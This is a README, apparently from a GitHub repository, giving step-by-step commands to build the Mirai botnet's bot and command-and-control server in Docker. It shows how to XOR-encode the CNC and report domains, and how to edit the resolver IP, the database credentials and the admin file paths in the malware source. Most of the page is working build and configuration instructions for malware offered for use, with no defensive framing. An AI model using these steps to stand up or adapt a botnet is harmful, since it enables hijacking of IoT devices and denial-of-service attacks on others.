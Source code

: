 # Mirai-Docker

https://github.com/jgamblin/Mirai-Source-Code

### Install docker and docker compose
https://docs.docker.com/get-docker/

### Download source and dockerfile
```
git clone https://github.com/deunlee/Mirai-Docker
cd Mirai-Docker
```

### Build docker containers
```
docker compose build
```

### Compile bot and CNC
```
docker compose run compile ./build.sh
```

### Encrypt your domain
```
alias enc="docker compose run compile ./src/mirai/tools/enc"
```
```
enc string cnc.mirai.com
XOR'ing 14 bytes of data...
\x41\x4C\x41\x0C\x4F\x4B\x50\x43\x4B\x0C\x41\x4D\x4F\x22
```
```
enc string report.mirai.com
XOR'ing 17 bytes of data...
\x50\x47\x52\x4D\x50\x56\x0C\x4F\x4B\x50\x43\x4B\x0C\x41\x4D\x4F
```

### Edit Mirai source code
Edit [./src/mirai/bot/resolv.c](./src/mirai/bot/resolv.c) DNS server IP
```c
struct resolv_entries *resolv_lookup(char *domain)
{
    // ...

    util_zero(&addr, sizeof (struct sockaddr_in));
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INET_ADDR(127,0,0,1); // <-- here!
    addr.sin_port = htons(53);

    // ...
}
```

Edit [./src/mirai/cnc/main.go](./src/mirai/cnc/main.go)
```go
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "user"
const DatabasePass string   = "this-is-password!"
const DatabaseTable string  = "mirai"
```

Edit [./src/mirai/cnc/admin.go](./src/mirai/cnc/admin.go)
```go
headerb, err := ioutil.ReadFile("/home/mirai/src/prompt.txt") // <-- here!
```

